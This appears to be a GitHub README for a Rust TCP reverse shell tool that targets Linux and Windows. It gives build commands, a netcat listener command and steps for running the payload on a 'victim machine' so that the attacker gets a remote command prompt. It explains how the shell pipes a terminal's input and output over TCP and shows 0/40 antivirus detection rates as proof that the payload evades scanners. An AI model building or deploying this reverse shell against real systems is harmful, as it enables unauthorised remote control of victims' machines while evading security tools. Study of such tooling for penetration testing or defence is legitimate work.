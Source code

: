 # RCO: TCP Reverse Shell

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![](https://user-images.githubusercontent.com/14863147/151044738-72dbec76-73b1-47c5-831a-2e995673b559.gif)  |  ![](https://user-images.githubusercontent.com/14863147/151058869-8e5e9f6e-3f7b-4a98-ab65-2ac5017a4e76.gif)


## Using it

1. [Not shown in GIF] Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/tcp_reverse_shell/src/config.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively

2. [Not shown in GIF] Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```

3. Start a netcat listener on the attacking machine on the same port you configured in step 1
    ```commandline
    nc -nlvp 4444
    ```

4. Execute the payload on the victim machine

5. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/d185d1b1ba09f1a9133b72cb1bb12f177b32f3e65962baf7789b03c968ec8e47)

![image](https://user-images.githubusercontent.com/14863147/151023219-84d7ab95-002e-4d20-89c7-264894d72683.png)

[Windows - 0 / 40](https://kleenscan.com/scan_result/e9ffcf8fffd390b68a4cbc9d506571f0618e473732015be748e1960300bc6a85)

![image](https://user-images.githubusercontent.com/14863147/151023325-d917df57-18ce-4e99-b059-968a479b65ce.png)


## How it works

Both RCO's Linux and Windows TCP reverse shells work by establishing a [TCP session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process is spun up with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.
